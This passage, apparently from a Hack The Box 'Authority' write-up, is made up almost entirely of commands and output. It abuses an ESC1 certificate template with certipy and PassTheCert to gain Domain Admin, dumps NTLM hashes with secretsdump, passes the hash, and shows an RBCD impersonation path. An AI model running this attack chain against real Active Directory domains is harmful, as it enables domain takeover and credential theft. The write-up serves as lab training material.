    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```


```bash
❯ certipy-ad req -u 'svc_ldap'@10.10.11.222 -p 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 2
Would you like to save the private key? (y/N) 
```


adPEAS

```powershell
[?] +++++ Checking Template 'CorpVPN' +++++
[!] Template 'CorpVPN' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
[+] Identity 'HTB\Domain Computers' has enrollment rights for template 'CorpVPN'
```


```powershell
[?] +++++ Checking Add-Computer Permissions +++++
[+] Filtering found identities that can add a computer object to domain 'authority.htb':
[!] The Machine Account Quota is currently set to 10
[!] Every member of group 'Authenticated Users' can add a computer to domain 'authority.htb'

distinguishedName:			CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=authority,DC=htb
objectSid:				S-1-5-11
memberOf:				CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=authority,DC=htb
					CN=Certificate Service DCOM Access,CN=Builtin,DC=authority,DC=htb
					CN=Users,CN=Builtin,DC=authority,DC=htb
```


```bash
❯ powerview authority.htb/'svc_ldap':'lDaP_1n_th3_cle4r!'@10.10.11.222 --dc-ip 10.10.11.222
Logging directory is set to /home/kali/.powerview/logs/authority-svc_ldap-10.10.11.222
[2025-02-22 05:13:25] [Storage] Using cache directory: /home/kali/.powerview/storage/ldap_cache
[2025-02-22 05:13:25] User svc_ldap has adminCount attribute set to 1. Might be admin somewhere somehow :)
(LDAPS)-[authority.authority.htb]-[HTB\svc_ldap]
PV > Add-ADComputer
[2025-02-22 05:13:32] -ComputerName and -ComputerPass are required
(LDAPS)-[authority.authority.htb]-[HTB\svc_ldap]
PV > Add-ADComputer -ComputerName Gzzcoo -ComputerPass Gzzcoo123
[2025-02-22 05:13:49] Successfully added machine account Gzzcoo$ with password Gzzcoo123.
```


```powershell
PV > Add-ADComGet-ADObject -Identity Gzzcoo$
objectClass                : top
                             person
                             organizationalPerson
                             user
                             computer
cn                         : Gzzcoo
distinguishedName          : CN=Gzzcoo,CN=Computers,DC=authority,DC=htb
instanceType               : 4
whenCreated                : 22/02/2025 06:52:39 (today)
whenChanged                : 22/02/2025 06:52:39 (today)
uSNCreated                 : 262368
uSNChanged                 : 262370
name                       : Gzzcoo
objectGUID                 : {beb65f20-e494-4c46-90b0-bfc2cbd3ea15}
userAccountControl         : WORKSTATION_TRUST_ACCOUNT [4096]
badPwdCount                : 0
codePage                   : 0
countryCode                : 0
badPasswordTime            : 01/01/1601 00:00:00 (424 years, 1 month ago)
lastLogoff                 : 1601-01-01 00:00:00+00:00
lastLogon                  : 01/01/1601 00:00:00 (424 years, 1 month ago)
localPolicyFlags           : 0
pwdLastSet                 : 22/02/2025 06:52:39 (today)
primaryGroupID             : 515
objectSid                  : S-1-5-21-622327497-3269355298-2248959698-11601
accountExpires             : 9999-12-31 23:59:59.999999+00:00
logonCount                 : 0
sAMAccountName             : Gzzcooo$
sAMAccountType             : SAM_MACHINE_ACCOUNT
dNSHostName                : Gzzcoo.authority.htb
servicePrincipalName       : RestrictedKrbHost/Gzzcoo.authority.htb
                             RestrictedKrbHost/Gzzcoo
                             HOST/Gzzcoo.authority.htb
                             HOST/Gzzcoo
objectCategory             : CN=Computer,CN=Schema,CN=Configuration,DC=authority,DC=htb
isCriticalSystemObject     : False
dSCorePropagationData      : 01/01/1601
mS-DS-CreatorSID           : S-1-5-21-622327497-3269355298-2248959698-1601

```


```bash
❯ certipy-ad req -u 'Gzzcooo$'@10.10.11.222 -p 'Gzzcoo123' -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -target 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```


```bash
❯ certipy-ad auth -pfx administrator.pfx -username Administrator -domain authority.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```








KDC\_ERR\_PADATA\_TYPE\_NOSUPP

“…when a domain controller doesn’t have a certificate installed for smart cards…” is probably the most common reason for KDC\_ERR\_PADATA\_TYPE\_NOSUPP. If the DC doesn’t have a “Domain Controller”, “Domain Controller Authentication”, or another certificate with the Server Authentication EKU (OID 1.3.6.1.5.5.7.3.1) installed, the DC isn’t properly set up for PKINIT and authentication will fail.

Also, according to Microsoft, “This problem can happen because the wrong certification authority (CA) is being queried or the proper CA cannot be contacted in order to get Domain Controller or Domain Controller Authentication certificates for the domain controller.” At least in some cases we’ve been able to auth via PKINIT to a DC even when the CA is not reachable, so this situation may be hit and miss.

If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.






```bash
❯ certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'

❯ certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'
```


```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action whoami -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] You are logged in as: HTB\Administrator
```


```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.

# add_user_to_group svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK
```


```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group "Domain Admins"
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            svc_ldap
The command completed successfully.
```


```bash
❯ secretsdump.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222 -dc-ip 10.10.11.222 -just-dc-ntlm
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:addf932778c269fb8c1a60e722569258:::
[*] Cleaning up... 
```


```bash
❯ nxc smb 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Administrator:6961f422924da90a6928197429eea4ed (Pwn3d!)
❯ evil-winrm -i 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
ecfaaf85b2859960b8313f78b73cd39e
```


```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action add_computer -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -computer-name 'rbcd_gzzcoo$' -computer-pass 'Gzzcoo123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account rbcd_gzzcoo$ with password Gzzcoo123.
```


```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action write_rbcd -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -delegate-to 'AUTHORITY$' -delegate-from 'rbcd_gzzcoo$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd_gzzcoo$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd_gzzcoo$   (S-1-5-21-622327497-3269355298-2248959698-11604)
```


```bash
❯ impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator -dc-ip 10.10.11.222 'authority.htb'/'rbcd_gzzcoo$':'Gzzcoo123' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache

❯ KRB5CCNAME=Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache wmiexec.py authority.htb/Administrator@AUTHORITY.authority.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

C:\>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::b2
   IPv6 Address. . . . . . . . . . . : dead:beef::2bfa:d203:fefe:9258
   Link-local IPv6 Address . . . . . : fe80::3dc8:5e09:6a49:d0ec%8
   IPv4 Address. . . . . . . . . . . : 10.10.11.222
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6791%8
                                       10.10.10.2
```
